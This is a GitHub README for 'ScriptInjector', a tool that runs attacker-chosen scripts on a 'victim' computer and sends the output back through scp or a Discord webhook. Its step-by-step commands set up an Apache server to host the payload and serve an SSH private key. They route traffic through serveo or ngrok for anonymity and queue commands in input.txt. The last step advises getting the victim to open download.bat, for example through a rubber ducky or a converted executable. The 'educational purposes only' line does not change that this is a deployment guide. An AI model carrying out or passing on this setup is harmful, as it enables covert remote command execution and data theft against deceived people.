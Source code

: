 # ScriptInjector
Inject and run scripts on remote computers and get the output back via scp or a discord webhook
For educational purposes only.

## How it works
1. Clone this repo and cd into it
    ```
    git clone https://github.com/emaa10/ScriptInjector.git
    cd ScriptInjector
    ```

2. Install packages
    ```
    sudo apt install -y apache2 openssh-client screen
    sudo systemctl enable ssh
    ```

3. Setup an apache2 webserver and put the files under `/src` into `/var/www/html/`
    ```
    sudo mv src /var/www/html
    ```

4. Generate an ssh-key to allow your victim to scp into your system, it is recommended to use another user with fewer permissions 
    ```
    ssh-keygen -t rsa
    ```
    Press enter on all questions.
    ```
    cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
    mv ~/.ssh/id_rsa ~/.ssh/id_rsa.pub /var/www/html/
    ```

5. Setup port forwarding or serveo.net/ngrok to stay anonymous
    1. forward port 80 and 22 (http and ssh)
    2. create a no-ip or a subdomain of your port-forwarding service
    3. if you're using serveo, you might need to generate a second ssh-key you don't move out of the .ssh directory and connect your gmail account

6. Create an ssh config file for your victim
    1. use the template "config" file
    2. if you're using serveo.net to forward your IP, use the "config_serveo" template
        - since serveo forwards IPs using ssh, you need to configure ProxyJump for serveo.
        - I recommend serveo because of this, it keeps your connection secure
        - You need to generate a hostname (see the launch_serveo.txt file for serveo) and just put it into "your_hostname" in your config file
    3. move your config file into /var/www/html/

7. Adapt Setup.bat and scheduled.bat to match your chosen hostname / your public IP

8. Start serveo (or a different port forwarding service)
    - See the launch_serveo.txt file for 2 commands to forward ssh and http to your_hostname.serveo.net
    - You can use screen to start multiple serveo forwarding simultaneously

9. Create folders and the input.txt
    ```
    touch /var/www/html/input.txt
    echo "dir C:\Users" >> /var/www/html/input.txt
    sudo mkdir /mnt/income
    sudo chown www-data /mnt/income
    sudo chgrp www-data /mnt/income
    sudo chmod 777 /mnt/income
    ```

10. Get the victim to open the download.bat
    - That's your part. There are many options: Using a rubberducky script or converting the bat file into an executable.